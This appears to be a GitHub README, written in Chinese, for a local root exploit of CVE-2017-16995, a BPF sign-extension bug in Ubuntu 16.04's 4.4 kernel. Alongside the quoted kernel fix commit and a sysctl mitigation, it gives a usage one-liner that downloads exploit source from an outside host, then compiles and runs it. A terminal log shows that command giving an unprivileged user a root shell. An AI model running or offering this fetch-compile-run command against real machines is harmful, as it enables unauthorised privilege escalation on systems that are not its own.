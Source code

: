 # Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable
#####  Jann Horn发现在某些情况下，Linux内核中的Berkeley Packet Filter（BPF）不正确地执行了符号扩展check_alu_op()。本地攻击者可以使用它在系统上进行提权,获取root权限。

```
bpf: fix incorrect sign extension in check_alu_op()
Distinguish between
BPF_ALU64|BPF_MOV|BPF_K (load 32-bit immediate, sign-extended to 64-bit)
and BPF_ALU|BPF_MOV|BPF_K (load 32-bit immediate, zero-padded to 64-bit);
only perform sign extension in the first case.

Starting with v4.14, this is exploitable by unprivileged users as long as
the unprivileged_bpf_disabled sysctl isn't set.

Debian assigned CVE-2017-16995 for this issue.

v3:
 - add CVE number (Ben Hutchings)

Fixes: 484611357c19 ("bpf: allow access into map value arrays")
Signed-off-by: Jann Horn <jannh@google.com>
Acked-by: Edward Cree <ecree@solarflare.com>
Signed-off-by: Alexei Starovoitov <ast@kernel.org>
Signed-off-by: Daniel Borkmann <daniel@iogearbox.net>

```

#### 前提条件：unprivileged_bpf_disabled sysctl未设置
#### CVE 编号： CVE-2017-16995
#### 注意: 如果不同的内核调整CRED偏移量+检查内核堆栈大小
### 漏洞测试环境
```

➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```

设置参数“kernel.unprivileged_bpf_disabled = 1”通过限制对bpf（2）调用的访问来防止这种特权升级
___________________________________________________________________________________________________________________________

root@Ubuntu# echo 1 > /proc/sys/kernel/unprivileged_bpf_disabled

______________________________________________________________________________________________________________________________


```

[![asciicast](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW.png)](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 

```

### upstream44.c

```

sha256sum b71b2317c2f2461f0c25a650c9c6a4dd2399e5d7f800ec19822ba720a574030d

sha1sum d91b5dd8b074dd33bbb6994ab21af4e6279c9098

md5sum f38c046a22fd85e3aab3aa7ea4ef21a4

```

![](./0day.jpg)

```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0
```

### 参考链接

https://access.redhat.com/security/cve/cve-2017-16995

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=95a762e2c8c942780948091f8f2a4f32fce1ac6f

https://security-tracker.debian.org/tracker/CVE-2017-16995

https://usn.ubuntu.com/3523-2/

https://www.securityfocus.com/bid/102288

https://github.com/torvalds/linux/commit/95a762e2c8c942780948091f8f2a4f32fce1ac6f



